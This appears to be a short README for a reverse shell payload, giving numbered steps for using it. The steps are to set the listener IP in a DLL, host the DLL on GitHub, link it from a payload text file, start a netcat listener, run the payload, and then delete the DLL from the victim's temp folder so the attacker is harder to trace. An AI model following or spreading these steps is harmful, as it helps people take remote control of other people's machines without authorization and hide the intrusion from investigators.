 1) In "shell-reversed.dll" and replace "x.x.x.x" with the public ip address of the server you will be litening for the reverse shell on
2) Host the file "shell-reversed.dll" in a github repo
3) Repalce "<LINK GOES HERE>" with the public link to your hosted file in "Reverse Shell.txt"
4) Run the command "nc -lvnp 10751" on the server you want to listen on
5) Execute The Payload
6) Once The Reverse Shell has been established, run the command "rm $env:TEMP\shell-reversed.dll". This will remove the file helping efforts to trace you down become more difficult.
